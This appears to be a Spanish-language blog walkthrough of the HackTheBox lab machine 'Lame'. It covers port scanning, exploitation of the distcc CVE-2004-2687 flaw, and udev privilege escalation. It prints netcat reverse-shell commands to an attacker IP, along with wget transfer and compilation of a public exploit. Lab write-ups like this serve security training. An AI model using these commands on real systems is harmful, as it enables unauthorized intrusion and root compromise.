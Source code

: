 ```yaml
---
layout: post
title:  "HTB_Lame"
date:   2020-08-17 18:36:10 -0500
categories: HackTheBox
---
```


## HTB Lame ##

![Pic](/assets/Lame/Picture.png)

### Reconocimiento ###

Utilize la herramienta *Autorecon* de Tiberius para un reconocimiento inicial y en paralelo corri nmap para ver que puertos estaban abiertos.

` nmap -A -p- 10.10.10.3 `

Luego de terminar autorecon - entre en el folder de scans y puedo obtener la siguiente informacion de los puertos abiertos:

- **Puerto 21**: FTP (vsftpd 2.3.4), permite acceso anonimo al share.
- **Puerto 22**: OpenSSH (4.7p), casi nunca es vulnerable
- **Puerto 139 y 445**: Samba, uno tiene el 3.0-4.0 y el otro 3.0.20
- **Puerto 3632**: Distcc, nunca en la vida habia escuchado de ese servicio, autorecon lo muestra en los _pattern

![autorecon](/assets/Lame/autorecondistcc.png)

### Enumeracion ###

#### Puerto21 ####
Primero empezamos con nuestros puntos de entrada - buscamos en google y nos damos cuenta que esta version de vsftpd es vulnerable, buscamos un script de nmap para asegurarnos de que esto sea posible.

` ls /usr/share/nmap/scripts/ftp* `

Vemos que existe uno para vsftpd que se llama *vsftpd-backdoor.nse*

Ejecutamos el script
` nmap --script ftp-vsftpd-backdoor.nse -p 21 10.10.10.3 `

Nos dice que no es vulnerable, nos movemos a nuestro siguiente punto de entrada

#### Puerto 22 ####
SSH es lo ultimo que queremos mirar, pasemos a los samba

#### Puerto 139 ####
` smbclient -L 10.10.10.3 `

Me da un error *protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED*

` smbmap -H 10.10.10.3 `

Si muestra que tenemos read/write access a un folder que se llama oh noes!

Buscando en google para vulnerabilidades de esta version de Samba, hay varias, pero la mayoria necesitan Metasploit, asi que pasamos a nuestro siguiente puerto

### Exploitation ###

#### Port 3632 Distcc ####

En el _Pattern log de autorecon, sale que nmap encontro una vulnerabilidad en este puerto, para asegurarnos corremos

` nmap --script distcc-cve2004-2687 -p 3632 10.10.10.3 `

Y Efectivamente, si es vulnerable!

Buscando la vulnerabilidad en google - encontramos un script de python que nos puede dar acceso en shell, solo tenemos que seguir las instrucciones.

![script](/assets/Lame/script.png)

- `nc -nlvp 1403`
- ` exploit.py -t 10.10.10.3 -p 3632 -c "nc 10.10.16.85 1403 -e /bin/sh" `

Cuando corres el exploit te va a dar un socket timeout pero ya estas in - lo que tienes que hacer despues es spawn un TTY shell

` python -c 'import pty; pty.spawn("/bin/sh")' `

![exploit](/assets/Lame/shell.png)

Buscamos nuestro user.txt

### Privilege Escalation ###
Buscando en google la version del sistema operativo para ver vulnerabilidades encontramos un exploit escrito en .c [2009-1185](https://www.exploit-db.com/exploits/8572) lo buscamos en searchsploit y lo bajamos a nuestro folder.

` searchsploit -m 8572.c `

Seteamos un servidor python en nuestra maquina atacante

` python3 -m http.server `

En la maquina objetivo, hacemos un wget

` wget http://10.10.16.85/8572.c `

Compilamos el exploit usando gcc

` gcc 8572.c -o 8572 `

Seguimos las instrucciones que salen en el script

[Instrucciones]

Tenemos que:
- Darle el PID (ProcessID) del udevd netlink socket
- Crear un run file en /tmp y agregarle un reverse shell

` ps -aux | grep devd `

o tambien usando

` cat /proc/net/netlink `

Este va a tener uno menos que el DEVD inet, el que hay que usar - 2687 o el que sale en ` cat /proc/net/netlink `

![inet](/assets/Lame/PID.png)


Segundo paso es crear un run file en /tmp y agregarle el reverse shell
- ` #!/bin/bash `
- ` nc -nv 10.10.16.85 4444 -e /bin/bash `

Seteamos un listener en nuestra maquina con el puerto que establecimos anteriormente y ejecutamos el exploit con el PID que identificamos

![Root](/assets/Lame/root.png)

### Notas ###
- Full port scans
- Enumeracion de servicios
- Compilar exploits y transferirlos de una maquina a otra
